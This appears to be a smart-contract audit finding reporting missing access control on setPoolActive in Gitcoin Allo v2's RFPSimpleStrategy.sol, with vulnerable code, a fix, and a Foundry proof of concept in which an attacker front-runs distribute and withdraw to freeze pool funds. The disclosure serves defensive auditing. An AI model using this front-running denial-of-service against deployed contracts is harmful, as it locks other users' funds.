 Damaged Cornflower Turkey

high

# Lack of Access Control leaves RFPSimpleStrategy.sol vulnerable to DoS attacks, freezing the funds.
## Summary
`setActivePool` has no access controls. This means everyone can change the pool to active/inactive. A malicious user can front run every`distribute` and `withdraw` function by setting the pool to `active`. This means the funds will not be able to be distributed nor withdrawn, leaving the funds stuck in the strategy contract.
## Vulnerability Detail

According to the [documentation](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L217) in `RFPSimpleStrategy.sol`:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

/// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
```
However, anyone can call `setPoolActive` in `RFPSimpleStrategy.sol`:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
function setPoolActive(bool _flag) external <= // no access control{
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```
There is no access controls stopping anyone from setting the pool to active or inactive. 
This opens up a lot of attack vectors for malicious users, for example, the `_distribute` function can only be called when the pool is inactive:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
    function _distribute(address[] memory, bytes memory, address _sender)
        internal
        virtual
        override
		onlyInactivePool    <= //requires the pool to be inactive
        onlyPoolManager(_sender)
    {
```
A malicious user can decide call `setPoolActive` with `true` every time a pool manager wants to distribute the funds.

The same logic applies to the `withdraw` function:
```javascript
source: contracts/strategies/rfp-simple/RFPSimpleStrategy.sol

// findings marked with <=
    function withdraw(uint256 _amount) external onlyPoolManager(msg.sender) 
    onlyInactivePool <=// requires the pool to be inactive
    {
        poolAmount -= _amount;
        _transferAmount(allo.getPool(poolId).token, msg.sender, _amount);
    }
```

This POC contains two tests, showcasing how a malicious user can prevent anyone from calling the `withdraw` function or the `distribute` function:
```javascript
source: test/foundry/strategies/RFPSimpleStrategy.t.sol

// place in test/foundry/strategies/RFPSimpleStrategy.t.sol
// run using:
// forge test --match-contract RFPSimpleStrategy --match-test test_dosDistribute -vvvv
    function test_dosDistribute() public {
        address hacker = makeAddr("1337pwner");

        // create recipientId
        address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
        // give the admin 1e19 native token
        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        // fund the pool with 1e19 native token
        allo().fundPool{value: 1e19}(poolId, 1e19);
    
        // the hacker frontruns the distribute call by setting the pool to active
        vm.prank(hacker);
        strategy.setPoolActive(true);

        // distribute will fail with the error message: POOL_ACTIVE()
        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }


// run using:
// forge test --match-contract RFPSimpleStrategy --match-test test_dosWithdraw -vvvv
    function test_dosWithdraw() public {
        address hacker = makeAddr("1337pwner");

        // create recipientId
        address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
        // give the admin 1e19 native token
        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        // fund the pool with 1e19 native token
        allo().fundPool{value: 1e19}(poolId, 1e19);
    
        // the hacker frontruns the distribute call by setting the pool to active
        vm.prank(hacker);
        strategy.setPoolActive(true);

        // withdraw will fail with the error message: POOL_ACTIVE()
        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(pool_admin());
        strategy.withdraw(1e19);
    }
```

These are all the functions in `RFPSimpleStrategy.sol` that have either `onlyActivePool` or `onlyInactivePool`:
```javascript
//onlyActivePool
    function _registerRecipient(bytes memory _data, address _sender)
    function _allocate(bytes memory _data, address _sender)

//onlyInactivePool
    function _distribute(address[] memory, bytes memory, address _sender)
    function withdraw(uint256 _amount) external onlyPoolManager(msg.sender) onlyInactivePool {

```
A malicious user can deny anyone from calling these by setting the value that makes `onlyActive `or `onlyInactive` fail.
## Impact
Funds will be stuck in the contract, withdraw will not be possible. Cost for the malicious user is low. 
Likelihood is very high. Everyone can call `setPoolActive` and change the flag to whatever he wants.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219-L222
## Tool used
Manual Review
## Recommendation
Add `onlyPoolManager(msg.sender)` as a modifier to the `setPoolActive` function. This is what the function should look like:
```javascript
function setPoolActive(bool _flag) external onlyPoolManager(msg.sender) {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```